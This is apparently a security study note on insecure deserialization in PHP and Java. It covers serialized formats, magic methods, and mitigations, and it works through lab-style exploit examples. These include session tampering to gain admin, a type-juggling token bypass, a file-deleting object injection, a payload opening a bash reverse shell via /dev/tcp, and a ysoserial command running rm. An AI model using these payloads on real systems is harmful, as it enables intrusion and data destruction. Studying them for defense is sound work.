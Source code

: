 ```yaml
---
title: "Insecure Deserlization"
tags:
    - WEB
    - PHP
    - JAVA
date: "2024-08-9"
thumbnail: "/assets/img/thumbnail/serialization.png"
bookmark: true
---
```

# Serialization
---
 is the process of converting a complex data structures, such as objects and their fields.

Serializing data makes it much simpler to:
- Write complex data to inter-process memory, a file, or a database.
- Send complex data, for example, over a network, between different components of an application, or in an API call.
- Some languages serialize objects into binary formats.
- all of the original object's attributes are stored in the serialized data stream, including any private fields.
- Used for storing and transferring data.
# Insecure deserialization
---
deserialization vulnerabilities can be as easy as changing an attribute in a serialized object , identify and edit interesting attribute values. You can then pass the malicious object into the website via its deserialization process
**Used to**
1- RCE
2- privilege escalation
3- file access
4- DOS attack
5- Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context.
**How to identify?**
 data flow in request
# PHP serialization
---
in code:
```php
$user->name = "carlos";
$user->isLoggedIn = true;
```
after selialization:
```php
`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`
```
- `O:4:"User"` - An object with the 4-character class name `"User"`
- `2` - the object has 2 attributes
- `s:4:"name"` - The key of the first attribute is the 4-character string `"name"`
- `s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`
- `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`
- `b:1` - The value of the second attribute is the boolean value `true`

**Magic methods in PHP**
https://www.php.net/manual/en/language.oop5.magic.php
• you create exploits that pass data into dangerous methods automatically.
• Magic methods are a common feature of OOP like `__destruct()` or `__construct()` .
• Some languages have magic methods that are invoked automatically **during** the deserialization process, For example, PHP's unserialize()method looks for and invokes an object's `__wakeup()`magic method.
<img src="/assets/img/deser/1.png">

**In decoded session**
- `O:4:"User":2:{s:8:"username";s:6:"carlos";s:7:"isAdmin";b:0;}` —>change 0 to 1
- `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:20:"ej9jdijdf9efje9eof9j9f";}`
—> change to `O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
in case the access_token or password doesn’t start with number so we can instead value with 0
`0 == "Example string" // true` in PHP
**Arbitrary object injection in PHP**
We need source code to create and inject a malicious serialized object to do specific function
<img src="/assets/img/deser/2.png">

notice the `CustomTemplate` class contains the `__destruct()`magic method. This will invoke the `unlink()` method on the `lock_file_path` attribute, `unlink()` method to delete file
`O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}`
### scenario
<img src="/assets/img/deser/3.png">

```php
O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('id');";}
->
O:18:"PHPObjectInjection":1:{s:6:"inject";s:71:"system('/bin/bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'');";}
```
# Java Serialization
Example :
1- Item java : have code for class named Item
<img src="/assets/img/deser/4.png">
2- Serialize.java : conatin the serialization logic
<img src="/assets/img/deser/5.png">
- Java objects always begin with the same bytes, which are encoded as `ac ed`in hexadecimal and`rO0` in Base64  which is a standard java serialization format signature.
- Any class that implements the interface `java.io.Serializable` can be serialized and deserialized
- `readObject()`method, which is used to read and deserialize data from an `InputStream`
- In Java deserialization , a readObject()method declared in exactly this way acts as a magic method that is invoked during deserialization

**how to identify it ?**
search for object that it's magic bytes rO0
<img src="/assets/img/deser/6.png">
<img src="/assets/img/deser/7.png">

### **ysoserial (Java Deserialization)**
```bash
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
# mitigation
---
1- user input should never be deserialized at all.
2- Use a cryptographic library to generate a signature for the object and validate it prior to deserializing the returned object.
3- Don’t use unserialize() function with user input, use JSON functions instead.
---
